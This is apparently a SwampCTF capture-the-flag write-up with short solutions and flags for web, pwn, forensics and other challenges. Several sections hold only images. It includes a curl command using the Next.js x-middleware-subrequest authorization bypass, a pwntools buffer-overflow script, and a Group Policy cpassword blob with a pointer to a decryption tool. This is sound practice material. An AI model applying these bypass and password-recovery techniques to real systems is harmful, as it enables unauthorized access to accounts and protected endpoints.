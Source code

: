 * * *
### CTF: **SwampCTF**
* * *

![image](https://github.com/user-attachments/assets/e85ba37f-462c-4762-9886-468bf675e5ea)


--------------------------------

### Challenges

- Web:
  - Serialies
  - SlowAPI 

- Pwn:
  - Beginner Pwn 1
  - Beginner Pwn 2

- Misc:
  - Lost In Translation 
    
- Forensics:
  - Preferential Treatment

- Osint:
  - Party Time! 
  - Party Time! Level 2 

- Crypto:
  - Rock my Password 
  - Intercepted communications
  
--------------------------------
   
### Web:

### Challenge: Serialies
![image](https://github.com/user-attachments/assets/64b27c27-c8b1-4d4a-8e72-2859105706a7)

After I Download the file ```serialies.zip```
In the PersonController.java file, we find the /api/person endpoint. Navigating there gives us the flag.

![image](https://github.com/user-attachments/assets/9bf8ffdd-7fa3-44e9-80a8-df9f40389e33)
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}

--------------------------------


### Challenge: SlowAPI 
![image](https://github.com/user-attachments/assets/7639e47e-e6fb-4373-9cc0-c5fc4bfc6e2d)

- IT The RECENT NEXT.JS VULNERABILITY!!!!
- ```curl -H "x-middleware-subrequest: middleware" http://chals.swampctf.com:43611/api/protected/flag```
      
--------------------------------


### PWN:

### Challenge: Beginner Pwn 1
![image](https://github.com/user-attachments/assets/708c2055-022e-4c34-a702-e39f67354b5a)

- Solve script
python3
[#!/usr/bin/python3
from pwn import *

# Set up connection to the challenge server
HOST = "chals.swampctf.com"
PORT = 40004

# Buffer overflow payload
payload = b"A" * 10 + b"\x01\x00\x00\x00"  # Overwrite is_admin to 1 (true)

# Start interaction
p = remote(HOST, PORT)
p.recvuntil(b"please enter your name: ")
p.sendline(payload)

# Read output to check if admin
print(p.recv().decode())

# Send "y" to print flag
p.sendline(b"y")

# Receive and print flag
print(p.recvall().decode())

# Close connection
p.close()]
 
### Challenge: Beginner Pwn 2
![image](https://github.com/user-attachments/assets/cc125998-d69a-423d-b5e8-3bdd7eebf32e)

- Solve Script


--------------------------------

### MISC

### Challenge: Lost In Translation

![image](https://github.com/user-attachments/assets/32e32d6b-eee6-4494-8e1c-b35f7c53510a)

After i unzip the file, there is challenge.js and i Copy and paste the challenge.js to this whitespace "https://www.dcode.fr/whitespace-language"</a>




  
--------------------------------

### FORENSICS:

### Challenge: Preferential Treatment:
![image](https://github.com/user-attachments/assets/84ac06e1-0957-45a5-ab7b-3c04a9dbc6b6)

when checking the pcap following the tcp you can see the following:
"<Groups clsid="{3125E937-EC16-4b4c-9934-544FC6D24D26}">
    <User clsid="{DF5F1855-52E5-4d24-8B1A-D9BDE98BA1D1}" name="swampctf.com\Administrator" image="2"
          changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
        <Properties action="U" newName="" fullName="" description=""
                    cpassword="dAw7VQvfj9rs53A8t4PudTVf85Ca5cmC1Xjx6TpI/cS8WD4D8DXbKiWIZslihdJw3Rf+ijboX7FgLW7pF0K6x7dfhQ8gxLq34ENGjN8eTOI="
                    changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="swampctf.com\Administrator"/>
    </User>
</Groups>"
then I looked up what that was and realized it was a weakly encrypted password
so I found a repo to decrypt it.
"https://github.com/t0thkr1s/gpp-decrypt"



--------------------------------


### OSINT      

### Challenge: Party Time! 
![image](https://github.com/user-attachments/assets/f3f16896-d45f-461a-9c41-b047cb34c697)



### Challenge: Party Time! Level 2
![image](https://github.com/user-attachments/assets/dcd2698c-1dd1-479b-b215-517fa5dec4f3)



--------------------------------

### CRYPTO:

### Challenge: Rock my Password 
![image](https://github.com/user-attachments/assets/bba615e3-4145-4d6d-9129-5a296d8598ba)


### Challenge: Intercepted communications
![image](https://github.com/user-attachments/assets/b84f48ac-de68-4af6-b0cd-dc8dd0cdf699)





--------------------------------

Thanks for reading!!!!!

* * *

